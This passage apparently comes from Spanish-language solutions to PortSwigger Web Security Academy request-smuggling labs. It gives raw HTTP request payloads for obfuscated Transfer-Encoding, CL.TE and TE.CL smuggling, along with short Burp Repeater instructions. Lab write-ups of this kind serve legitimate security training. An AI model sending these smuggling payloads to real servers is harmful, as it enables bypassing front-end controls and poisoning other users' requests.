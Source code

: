 ```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: x

82
GPOST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

0


```

### [HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)

#### Solución:

Enviar 2 veces la siguiente request (desactivar "Update Content-Length" de Burp Repeater):

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 30
Transfer-Encoding: chunked

0

GET /asd HTTP/1.1
Foo: bar
```

### [HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)

#### Solución:

Enviar 2 veces la siguiente request (desactivar "Update Content-Length" de Burp Repeater y mantener los 2 saltos de línea del final):

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

83
GET /asd HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

0


```

